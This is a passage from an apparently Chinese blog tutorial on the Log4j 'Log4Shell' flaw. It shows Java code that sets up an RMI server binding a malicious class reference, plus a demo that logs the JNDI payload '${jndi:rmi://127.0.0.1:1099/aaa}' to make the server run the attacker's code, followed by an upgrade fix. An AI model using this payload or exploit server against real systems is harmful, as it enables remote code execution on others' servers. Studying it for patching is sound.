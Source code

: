```
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        System.out.println("小六六黑客注册成功 6666");

        String className="com.xiaoliuliu.OBJ";
        Reference reference = new Reference(className, className, null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aaa",referenceWrapper);
        System.out.println("小六六黑客服务器绑定成功");

    }

}
```


然后开最后是怎么黑的


- Demo

```
package com.xiaoliuliu;


import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Demo {

    private static  final Logger log= LogManager.getLogger();

    public static void main(String[] args) {
        //部分需要这个 看jdk版本
    //    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        String userName="${jndi:rmi://127.0.0.1:1099/aaa}";
        log.info("小六六的名字 {}" ,userName );


    }
}
```


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5333b2ee31b44360aa50445f3c0331d3~tplv-k3u1fbpfcp-watermark.image?)

看重点，我竟然利用了Log4J执行了 我黑客服务的代码，你就说6不6，这他妈 分分钟搞死你的服务。。。我的天


## 解决方案

解决方案这玩意当然也简单，我把版本神级到2.15就好了，小六六当场给你演示


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/87a00e3cda554211a345e99053f5ed07~tplv-k3u1fbpfcp-watermark.image?)

看到没有，完美解决！

## 结束

好了，我们来总结下，其实这个漏洞就是可以利用jndi和rmi这2种技术使你部署的服务器执行了我黑客服务器的代码，从而达到黑客的目的。这个问题小六六就给大家讲到这了，好了 我是小六六，三天打鱼，两天晒网！

